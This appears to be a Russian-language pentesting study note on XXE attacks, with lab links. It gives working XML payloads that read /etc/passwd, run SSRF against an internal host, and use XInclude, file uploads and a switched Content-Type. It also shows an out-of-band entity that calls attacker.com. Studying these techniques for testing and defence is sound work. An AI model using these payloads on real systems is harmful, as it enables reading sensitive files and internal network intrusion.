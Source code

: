 # Использование XXE для извлечения файлов

пример, где приложение использует XML для проверки уровня запасов товара. Злоумышленник может воспользоваться уязвимостью XXE для извлечения содержимого файла `/etc/passwd`.

1. **Исходный XML-запрос**:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>381</productId>
</stockCheck>
```

2. **Внедрение XXE**:  
	Злоумышленник изменяет запрос, добавляя определение внешней сущности, которая ссылается на файл `/etc/passwd`:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
	<productId>&xxe;</productId>
</stockCheck>
```


3. **Результат**:  
	Если приложение уязвимо к XXE, оно обработает внешнюю сущность `&xxe;` и вернет содержимое файла `/etc/passwd` в ответе:

#### Примечание
При реальных уязвимостях XXE в отправленном XML часто будет большое количество значений данных, любое из которых может быть использовано в ответе приложения. Для систематического тестирования на уязвимости XXE вам, как правило, нужно будет протестировать каждый узел данных в XML по отдельности, используя определенную вами сущность и проверяя, появляется ли она в ответе.


# Использование XXE для проведения SSRF-атак

- Поддержка внешней сущности http/https
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck>
	<foo>&xxe;</foo>
</stockCheck>
```

# Слепые уязвимости XXE

Многие случаи уязвимостей XXE являются слепыми. Это означает, что приложение не возвращает значения каких-либо определенных внешних сущностей в своих ответах, и поэтому прямое извлечение файлов на стороне сервера невозможно.

### XInclude атаки
Механизм для включения внешних ресурсов или фрагментов данных в XML-документы.

- Если парсер обрабатывает XInclude и не настроен безопасно, это может быть использовано для атак, похожих на XXE (XML External Entity), даже если обработка DTD и внешних сущностей отключена.

Пример чтения файла `/etc/passwd`:
```
<?xml version="1.0"?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```

#### Лаба
[[Лаборатория эксплуатация Xinclude для получения файлов]]

### Атаки XXE через загрузку файлов
Некоторые приложения позволяют загружать файлы, которые затем обрабатываются как XML. Если приложение не проверяет тип файла или содержимое, можно загрузить вредоносный XML-файл с внедренными внешними сущностями.

XML-файл с внедренной внешней сущностью:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

#### Лаба
[[Лаборатория эксплуатация xxe через загрузку файла изображения]]

### Атаки XXE через измененный тип контента
Иногда приложение может обрабатывать XML, даже если запрос отправляется с другим Content-Type (например, `application/json`). Изменение типа контента на `application/xml` или `text/xml` может привести к успешной эксплуатации XXE.

Изменить тип контента на `application/xml` и отправить XML-документ с внедренной внешней сущностью:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<foo>&xxe;</foo>
```

### Out-of-Band (OOB) XXE
Если приложение не возвращает данные напрямую, можно использовать Out-of-Band каналы для извлечения данных. Например, отправить данные на внешний сервер, контролируемый злоумышленником.

```
<!DOCTYPE foo [ 
<!ENTITY % xxe SYSTEM "http://attacker.com/oob"> 
%xxe; 
]>
<foo></foo>
```

**Внеполосное соединение** (Out-of-Band, OOB) — это метод взаимодействия, при котором данные передаются через **дополнительный канал связи**, отличный от основного.
